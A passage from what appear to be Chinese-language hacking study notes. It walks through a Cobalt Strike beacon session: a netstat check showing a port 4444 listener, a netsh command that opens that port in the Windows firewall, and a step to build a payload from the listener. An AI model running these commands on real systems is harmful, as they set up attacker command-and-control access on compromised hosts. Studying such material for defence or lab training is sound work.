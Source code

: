 ![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660605792458.png)

2. 查看,在本地开启了4444端口的监听

```
beacon> run netstat -anp tcp
[*] Tasked beacon to run: netstat -anp tcp
[+] host called home, sent: 46 bytes
[+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:4444           0.0.0.0:0              LISTENING

```

3. 设置允许4444端口进站，需要管理员权限

```
PS C:\Users\Administrator> netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444
Ok.

```


4. 以上面的监听器，新建一个payload

